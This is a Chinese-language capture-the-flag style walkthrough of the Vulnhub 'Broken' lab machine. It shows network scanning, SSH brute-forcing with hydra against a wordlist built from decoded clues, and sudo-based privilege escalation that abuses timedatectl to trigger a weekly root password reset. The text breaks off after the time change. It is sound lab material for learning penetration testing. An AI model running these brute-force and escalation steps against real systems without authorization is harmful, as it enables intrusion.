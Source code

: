 ## 👑Vulnhub Broken

### 一、操作文档

```
[Vulnhub - Broken-Gallery writeup (mzfr.me)](https://blog.mzfr.me/vulnhub-writeups/2019-08-21-Broken)
```

### 二、靶机信息

```
IP：192.168.184.135
开启的端口：22，80
用户名：bob
login: broken   password: broken
```

### 三、获取基本信息

#### 1、扫描网段IP

```shell
netdiscover -r 192.168.184.0/24  
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.184.1   00:50:56:c0:00:08      1      60  VMware, Inc.                    
 192.168.184.2   00:50:56:f8:49:8c      1      60  VMware, Inc.                    
 192.168.184.135 00:0c:29:05:05:03      1      60  VMware, Inc.      	#发现被攻击者IP              
 192.168.184.254 00:50:56:e2:c5:b4      1      60  VMware, Inc.  
```

#### 2、端口扫描

> 发现开启了==22端口和80端口==

```
nmap -sC -sV 192.168.184.135 -n -vv --min-rate=2000
 _____________________________________________________________________________
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 39:5e:bf:8a:49:a3:13:fa:0d:34:b8:db:26:57:79:a7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCsDP1G9p8pMW+TiKn0Exn6d2tGTTPGrKsIAlCWxUoZu/Jz+teqiDxZoQArXlhK/SgXXJv6ufJHMcgWhFOdGG/8Jfm46M7qURTWqTER5f7aNimHTvcBB/Zcnr1cSE+Yt3UgeguQ2VBTqPnESNjIinj5f7OrEJCG6Uvf221Wijzvb6KrYv5LNfrh8UJJ6ieis13aqvjwN1MQdKwMWYAV/2aPLME59TVyqneRDOvFZRDEPMHGJB3ZoNrlNudDf6UqZuLViplnkaN+SuxAWNXYG+g1fA578fNVIzI7bHAYDbCGFZh87TLKHvJvgqlWLDQvo8irzHlWvIpehvbpthnGIG0V
|   256 20:d7:72:be:30:6a:27:14:e1:e6:c2:16:7a:40:c8:52 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOedB//c64utUEo+gsmsh26dzZa0eMsc83InMyXD0rEepjTXqxbplJWFzx3rQSElxwdql+BsaQBI9qg+XROp9ZQ=
|   256 84:a0:9a:59:61:2a:b7:1e:dd:6e:da:3b:91:f9:a0:c6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIwpzv0aEpNMhO0avZsZ46zXc0aPO2V+867IaJkhJuSN
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.18
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 55K   2019-08-09 01:20  README.md
| 1.1K  2019-08-09 01:21  gallery.html
| 259K  2019-08-09 01:11  img_5terre.jpg
| 114K  2019-08-09 01:11  img_forest.jpg
| 663K  2019-08-09 01:11  img_lights.jpg
| 8.4K  2019-08-09 01:11  img_mountains.jpg
|_
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:05:05:03 (VMware)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 四、查看80端口的信息

![image-20220517172556091](https://yang-typora.oss-cn-beijing.aliyuncs.com/202208041716404.png)

- 发现包含几张图片和文本

![image-20220517172834754](https://yang-typora.oss-cn-beijing.aliyuncs.com/202208041716471.png)

![image-20220517173019203](https://yang-typora.oss-cn-beijing.aliyuncs.com/202208041716321.png)

#### 1、由于发现了图片，所以考虑图片隐写，查看图片信息

![image-20220517173406620](https://yang-typora.oss-cn-beijing.aliyuncs.com/202208041716392.png)

> 未发现隐写

#### 2、查看是否含有隐藏目录

`dirsearch`

```
dirsearch -u 192.168.184.135
```

![image-20220517174012903](https://yang-typora.oss-cn-beijing.aliyuncs.com/202208041716444.png)

> 未发现隐藏目录

### 五、CyberChef解码

- `  = `考虑是否为Base64  
- 用`From Charcode`解码

![image-20220517174659595](https://yang-typora.oss-cn-beijing.aliyuncs.com/202208041716505.png)

- 获取到的图片信息为

![image-20220517174801177](https://yang-typora.oss-cn-beijing.aliyuncs.com/202208041716042.png)

### 六、将获取到的信息形成字典

```
hello
bob
broken
cheers
avrahamcohen.ac
```

### 七、使用九头蛇爆破

```
hydra -L test.txt -P test.txt ssh://192.168.184.135

[22][ssh] host: 192.168.184.135   login: broken   password: broken
```

### 八、远程SSH链接

```
ssh broken@192.168.184.135
```

### 九、查看自己的权限

```
broken@ubuntu:~$ sudo -l
Matching Defaults entries for broken on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User broken may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/timedatectl
    (ALL) NOPASSWD: /sbin/reboot
```

- 查看目录
- 是否可以进入root目录
- 查看是否有隐藏文件
- 查看passwd文件
- 查看是否可以替换命令
  - 快捷方式是否可以更改到别的命令
- `sudo -i`可直接进入root
- `sudo man man`然后输入`!`可直接进入root

### 十、查看历史命令

```
history | more
```

- 写入密码

![image-20220517180921079](https://yang-typora.oss-cn-beijing.aliyuncs.com/202208041716966.png)

- 发现查看过此文档

![image-20220517180843384](https://yang-typora.oss-cn-beijing.aliyuncs.com/202208041716989.png)

- 查看password-policy.sh文档

```
broken@ubuntu:~$ cat /etc/init.d/password-policy.sh 
#!/bin/bash

DAYOFWEEK=$(date +"%u")
echo DAYOFWEEK: $DAYOFWEEK

if [ "$DAYOFWEEK" -eq 4 ]
then
	sudo sh -c 'echo root:TodayIsAgoodDay | chpasswd'
fi



#if [ "$DAYOFWEEK" == 4 
```

==发现每个周四将密码改为TodayIsAgoodDay==

**将系统时间改为周四**

### 十一、更改系统时间

```
broken@ubuntu:~$ sudo timedatectl set-time '2022-05-19 12:00'
```

![image-20220517181605512](https://yang-typora.oss-cn-beijing.aliyuncs.com/202208041716032.png)